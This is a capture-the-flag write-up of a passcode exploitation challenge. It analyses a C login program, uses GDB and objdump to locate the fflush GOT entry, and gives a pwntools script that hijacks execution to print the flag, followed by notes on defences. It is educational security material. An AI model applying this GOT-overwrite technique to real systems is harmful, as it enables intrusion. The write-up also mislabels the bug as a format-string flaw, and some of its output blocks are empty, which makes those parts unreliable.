



---

# **Challenge 5: Passcode Exploit**

### **Challenge Overview**
In this challenge, we are provided with a vulnerable login system written in C that contains a **format string vulnerability** in the `scanf()` function, which can be exploited to overwrite a function pointer and redirect execution to reveal the flag.

---

## **Code Analysis**

### **Vulnerable Code Snippet**
```
void login()
{
    int passcode1;
    int passcode2;

    printf("enter passcode1 : ");
    scanf("%d", passcode1);  // Vulnerability here
    fflush(stdin);

    printf("enter passcode2 : ");
    scanf("%d", passcode2);

    printf("checking...\n");
    if (passcode1 == 338150 && passcode2 == 13371337)
    {
        printf("Login OK!\n");
        system("/bin/cat flag");
    }
    else
    {
        printf("Login Failed!\n");
        exit(0);
    }
}
```

### **Identified Vulnerabilities**
1. **Format String Vulnerability:**
   - The `scanf("%d", passcode1);` function is used incorrectly.
   - The `scanf()` function expects an **address**, but instead, `passcode1` (uninitialized variable) is passed directly, leading to a segmentation fault.

2. **Buffer Overflow Potential:**
   - The `welcome()` function has a buffer overflow possibility:
     ```c
     char name[100];
     printf("enter your name : ");
     scanf("%100s", name);
     ```
   - We can control the last 4 bytes of this buffer and overwrite adjacent memory.


3. **Overwriting Function Pointers:**
   - From `objdump -R` analysis, the `fflush` function is dynamically linked at the address `0x0804a004`, and this can be overwritten.
    
---

## **Exploit Strategy**

### **Step 1: Finding the Buffer Overflow Offset**
Using the GDB debugger, we analyze memory and find that the last 4 bytes of the `name` buffer are stored at `$ebp-16`. This confirms that after 96 bytes, we can overwrite the adjacent memory location.

#### **GDB Analysis Commands**
1. Run the binary and input a long string of 100 characters.
   ```bash
   gdb ./passcode
   ```
2. Set a breakpoint at `login` and inspect memory:
   ```gdb
   b login
   run
   x/20wx $ebp-16  # Examine memory near passcode1 location
   ```

Expected output:
    

This confirms that we have control over the last 4 bytes.

---

### **Step 2: Overwriting the `fflush` Function Pointer**

Using `objdump -R` to check relocatable symbols:
```bash
objdump -R ./passcode
```

Output:


We can overwrite this address and redirect execution.

---

### **Step 3: Finding the Target Address (System Call Execution)**

Disassembling the binary using `objdump -D`:
```bash
objdump -D ./passcode | grep "system"
```

We find that the address `0x080485d7` calls `system("/bin/cat flag")`. Our goal is to jump to this address.

---

### **Step 4: Constructing the Exploit**

1. **Buffer Overflow Payload Construction:**
   - Send `96` bytes to fill the buffer.
   - Overwrite the next 4 bytes with the address of `fflush` (`0x0804a004`).
   - Use `scanf` to overwrite the function pointer with `0x080485d7` (system call).

---

## **Python Exploit Script**
We can automate the exploit using `pwntools`:

```python
from pwn import *

# Load the binary
elf = ELF('/home/passcode/passcode')

# Start the process
p = process('/home/passcode/passcode')

# Step 1: Overflow name buffer and overwrite fflush address
payload = b"A" * 96  # Fill buffer
payload += p32(0x0804a004)  # Overwrite the fflush GOT entry

# Send the overflow payload
p.sendline(payload)

# Step 2: Send system() address to scanf()
p.sendline(str(0x080485d7))

# Step 3: Receive the flag output
print(p.recvall().decode())
```

---

## **Explanation of Exploit Steps**

1. **Overflow the buffer:**  
   - Input `96` characters of padding.
   - Overwrite the `fflush` function pointer at `0x0804a004`.

2. **Redirect execution:**  
   - Provide the system function address as input to the vulnerable `scanf()`.
   - The program will jump to `system("/bin/cat flag")` and print the flag.

---

### **Step 5: Running the Exploit**
1. Save the script as `exploit.py`.
2. Run the script:
   ```bash
   python3 exploit.py
   ```

Expected output:
```
Toddler's Secure Login System 1.0 beta.
enter your name:
enter passcode1:
enter passcode2:
checking...
Login OK!
<FLAG>
```

---

## **Key Takeaways**

1. **Exploitation Techniques Used:**
   - Buffer Overflow to overwrite function pointers.
   - Understanding of function relocation using `objdump -R`.
   - Dynamic redirection of execution flow using memory corruption.

2. **Lessons Learned:**
   - Proper use of `scanf()` requires passing the address of variables.
   - Security implications of leaving function pointers writable.
   - Defense techniques include:
     - Enabling stack protection (`-fstack-protector`).
     - Read-only GOT protection (`RELRO` in ELF).
     - Using bounds-checked input functions like `fgets()`.

---

## **Alternative Solutions**
- If Address Space Layout Randomization (ASLR) is enabled, a brute-force approach might be needed.
- Static analysis with tools like `Ghidra` to inspect function addresses directly.

---